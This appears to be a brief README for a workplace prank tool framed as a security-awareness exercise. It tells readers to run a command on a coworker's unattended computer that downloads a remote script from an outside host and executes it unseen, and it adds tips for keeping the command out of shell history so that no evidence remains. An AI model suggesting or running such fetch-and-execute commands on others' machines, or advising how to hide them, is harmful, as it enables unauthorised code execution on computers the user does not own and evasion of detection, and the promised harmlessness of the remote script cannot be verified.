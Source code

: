 Encourage Operational Security at your organization.

Type the following at your coworkers' unattended computer:

```bash
curl pwn.devetry.sh | bash
```
It will choose a reasonably harmless script to (gently) mess with them.

## Tips

- Prepend the command with a space to avoid leaving evidence in terminal history.
- Run this is a fresh terminal to avoid leaving the command in session history.

